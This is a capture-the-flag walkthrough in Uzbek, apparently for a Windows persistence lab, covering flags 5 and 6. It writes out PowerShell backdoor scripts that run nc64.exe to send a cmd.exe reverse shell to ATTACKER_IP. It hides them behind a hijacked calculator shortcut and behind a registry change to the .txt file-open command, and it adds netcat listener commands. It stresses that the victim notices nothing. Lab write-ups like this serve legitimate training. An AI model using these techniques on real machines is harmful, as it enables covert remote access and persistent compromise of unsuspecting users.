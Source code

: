 

## 🪓 FLAG 5 — Shortcut hijacking orqali **Persistent Reverse Shell**

### 🎯 Maqsad:

Administratorning calc (calculator) shortcut faylini orqaga (backdoor) o‘zgartirish orqali, foydalanuvchi har safar kalkulyatorni ochganida sizga **reverse shell** qaytadi.

---

### ✅ 1. Powershell script yaratamiz

`backdoor.ps1` faylini yozamiz (masalan: `C:\Windows\System32\backdoor.ps1`):

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\System32\calc.exe
```

> `ATTACKER_IP` o‘rniga o‘zining IP manzilingizni qo‘ying. Masalan: `10.10.14.23`

---

### ✅ 2. Shortcut’ni o‘zgartiramiz

* Calc.exe shortcut fayliga o‘ting (masalan: `C:\Users\Administrator\Desktop\calc.lnk`)
* `Right-click → Properties` ni oching
* `Target` maydonini quyidagiga o‘zgartiring:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

> Shuningdek, shortcut ikonkasini asl `calc.exe` ga yo‘naltiring (visual shubhani bartaraf qilish uchun).

---

### ✅ 3. Listener ishga tushiring

AttackBox’da quyidagi buyruqni ishga tushiring:

```bash
nc -lvp 4445
```

---

### ✅ 4. Shortcut ustiga bosganingizda:

* Sizga reverse shell keladi (4445 port orqali)
* Foydalanuvchiga oddiy kalkulyator ochiladi

---

### ✅ 5. Shell kelgandan so‘ng flagni ishga tushiring:

```cmd
C:\flags\flag5.exe
```

---

## 🧨 FLAG 6 — File Association Hijacking orqali Persistent Shell

### 🎯 Maqsad:

`.txt` fayllar ochilganda **notepad.exe** bilan birga **sizga reverse shell** qaytishini ta'minlash.

---

### ✅ 1. backdoor2.ps1 faylini yaratamiz

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Bu faylni saqlang:

```plaintext
C:\Windows\backdoor2.ps1
```

---

### ✅ 2. Registry’ni o‘zgartirish

Registry Editor (`regedit`) orqali yoki PowerShell orqali:

```powershell
Set-ItemProperty -Path "HKLM:\Software\Classes\txtfile\shell\open\command" -Name "(default)" -Value 'powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -File C:\Windows\backdoor2.ps1'
```

> Bu `.txt` fayl ochilganda avtomatik ravishda siz yozgan ps1 skriptni ishga tushiradi.

---

### ✅ 3. Listener ishga tushiring

```bash
nc -lvp 4448
```

---

### ✅ 4. `.txt` faylni oching (yoki yangisini yarating):

```cmd
echo hello > test.txt
start test.txt
```

---

### ✅ 5. Reverse Shell kelganidan so‘ng flagni bajaring:

```cmd
C:\flags\flag6.exe
```

---

## 🏁 Xulosa:

| Flag | Texnika                          | Listener Port | Script          |
| ---- | -------------------------------- | ------------- | --------------- |
| 5    | Shortcut hijack (`calc.lnk`)     | `4445`        | `backdoor.ps1`  |
| 6    | File Association hijack (`.txt`) | `4448`        | `backdoor2.ps1` |

Ikkala usul ham **foydalanuvchi hech narsa sezmasdan** sizga shell qaytaradi.


